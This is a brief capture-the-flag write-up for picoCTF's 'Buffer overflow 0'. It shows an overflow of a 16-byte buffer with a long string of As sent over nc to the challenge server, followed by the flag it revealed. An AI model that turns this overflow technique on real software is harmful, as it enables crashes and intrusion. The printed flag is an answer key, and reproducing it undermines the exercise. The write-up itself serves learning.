 # Buffer overflow 0

## Solution
For the program to print the flag, we had to make the stack overflow
after seeing the code i figured that it returned the flag if there was
a segmentation fault in the input and the buffer was 16 characters big 
so i entered the input as AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
and got the flag

```
root@ASUS-ZN14:/mnt/c/Users/naira/Downloads# nc saturn.picoctf.net 55281
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Flag
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

```

# Concepts Learnt
Learnt about binary exploitation and stack overflow



# Notes
None


# Resources
None 
